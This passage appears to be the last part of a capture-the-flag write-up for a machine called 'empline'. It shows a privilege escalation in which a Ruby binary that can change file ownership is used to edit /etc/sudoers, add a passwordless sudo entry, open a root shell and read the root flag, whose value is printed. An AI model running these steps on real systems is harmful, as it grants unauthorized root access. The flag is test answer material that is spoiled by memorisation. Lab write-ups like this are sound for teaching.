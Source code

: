 1. Create a Ruby Script to Change Ownership ofÂ `/etc/sudoers`

Create a file namedÂ `exploit.rb`Â with the following content:

```rb
File.chown(Process.uid, Process.gid, "/etc/sudoers")
```

2. Run the Script with the Vulnerable Ruby Binary:

```bash
/usr/local/bin/ruby exploit.rb
```

3. ModifyÂ `/etc/sudoers`: 

```
chmod 640 /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

4. Reset the ownership of `/etc/sudoers` to root:

```
/usr/local/bin/ruby -e 'File.chown(0, 0, "/etc/sudoers")'
```

5. Get a root shell:

```
sudo su -
```


![Pasted image 20250430170035.png](../../IMAGES/Pasted%20image%2020250430170035.png)

There we go, let's read final flag and finish the CTF:

```
root@empline:~# cat /root/root.txt
74fea7cd0556e9c6f22e6f54bc68f5d5
```

